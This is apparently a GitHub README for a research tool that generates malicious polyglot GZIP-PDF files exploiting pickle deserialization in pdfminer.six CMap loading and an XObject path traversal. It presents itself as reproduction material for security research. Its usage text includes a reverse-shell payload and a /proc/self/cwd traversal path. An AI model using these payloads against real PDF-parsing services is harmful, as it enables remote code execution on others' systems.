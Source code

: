 # Pdfminer CMap Generator

A research tool to build polyglot GZIP-PDF files, with exploiting pdfminer CMap loading. Sharing reproduction and security research

## Introduce

**Background**

- pdfminer.six <= ALL
- 使用 pdfminer 进行 PDF 解析应用程序

**Functions**

- 生成恶意文件 PDF、Ployglot - GZIP and PDF；PDF 生成支持两种触发方式：CMap 加载和 XObject 路径穿越
- 文件验证功能
- 便于复现的 Docker 环境

## Usage
```
Usage: python3 pcg.py [options] --help
       python3 pcg.py build -t gzip -p "echo 111 >> uploads/1.txt"
       python3 pcg.py build -t pdf -ep "/proc/self/cwd/uploads/l1"

positional arguments:
  {build,validate,run}
    build               build a polyglot gzip-pdf file
    validate            Validate file

options:
  -h, --help            show this help message and exit
```

build

```
usage:  build [-h] -t {gzip,pdf} [-ptt {cmap,traversal}] [-ep ENCODING_PATH] [-p PAYLOAD] [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -t {gzip,pdf}, --type {gzip,pdf}
                        Select GZIP or PDF
  -ptt {cmap,traversal}, --pdf-trigger-type {cmap,traversal}
                        PDF trigger type: cmap (CMap loading) or traversal (XObject traversal)
  -ep ENCODING_PATH, --encoding-path ENCODING_PATH
                        PDF - Absolute path, but no suffix, Example: /proc/self/cwd/uploads/l1
  -p PAYLOAD, --payload PAYLOAD
                        GZIP - CMap Pickle.loads Payload, Example: bash -c 'bash -i >& /dev/tcp/ip/5555 0>&1'
  -o OUTPUT, --output OUTPUT
```

validate

```
l1n@servers:~/docker$ python3 github/Pdfminer_CMap_Generator/src/pcg.py validate --help
usage:  validate [-h] [-f FILE]

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Plotgloy gzip-pdf file path
```

## Research
[研究文章](https://github.com/L1nq0/Pdfminer-CMap-Generator/research/Pdfminer-Vulnerability-Research.md)

[复现环境](https://github.com/L1nq0/Pdfminer-CMap-Generator/research/lab/pdf2text_debug)

## References

https://github.com/pdfminer/pdfminer.six

https://blog.wm-team.cn/index.php/archives/86/

https://www.cnblogs.com/L1nq/p/19124085

